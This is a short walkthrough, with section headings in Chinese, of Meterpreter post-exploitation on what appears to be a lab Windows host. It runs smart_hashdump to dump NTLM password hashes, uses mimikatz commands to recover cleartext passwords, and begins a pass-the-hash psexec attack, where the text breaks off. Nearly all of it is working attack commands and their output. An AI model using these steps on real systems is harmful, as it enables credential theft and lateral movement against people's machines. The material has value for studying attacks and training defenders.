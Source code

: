 
### 获取Hash

    
    
    meterpreter > run post/windows/gather/smart_hashdump
    [*] Running module against TESTING
    [*] Hashes will be saved to the database if one is connected.
    [*] Hashes will be saved in loot in JtR password file format to:
    [*] /home/croxy/.msf4/loot/20150929225044_default_10.0.2.15_windows.hashes_407551.txt
    [*] Dumping password hashes...
    [*] Running as SYSTEM extracting hashes from registry
    [*]     Obtaining the boot key...
    [*]     Calculating the hboot key using SYSKEY 8c2c8d96e92a8ccfc407a1ca48531239...
    [*]     Obtaining the user list and keys...
    [*]     Decrypting user keys...
    [*]     Dumping password hints...
    [+]     Croxy:"Whoareyou"
    [*]     Dumping password hashes...
    [+]     Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
    [+]     HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:e3f0347f8b369cac49e62a18e34834c0:::
    [+]     test123:1003:aad3b435b51404eeaad3b435b51404ee:0687211d2894295829686a18ae83c56d:::
    

### 获取明文密码

    
    
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM    
    
    meterpreter > load mimikatz
    Loading extension mimikatz...success.
    meterpreter > msv
    [+] Running as SYSTEM
    [*] Retrieving msv credentials    
    
    meterpreter > kerberos
    [+] Running as SYSTEM
    [*] Retrieving kerberos credentials
    kerberos credentials
    ====================    
    
    meterpreter > mimikatz_command -f samdump::hashes
    Ordinateur : Testing
    BootKey    : 8c2c8d96e92a8ccfc407a1ca48531239    
    
    meterpreter > mimikatz_command -f sekurlsa::searchPasswords
    [0] { Croxy ; Testing ; hehe }
    [1] { test ; Testing ; test }
    

### 通过Hash获取权限

    
    
    msf > use exploit/windows/smb/psexec
    msf exploit(psexec) > show options    
    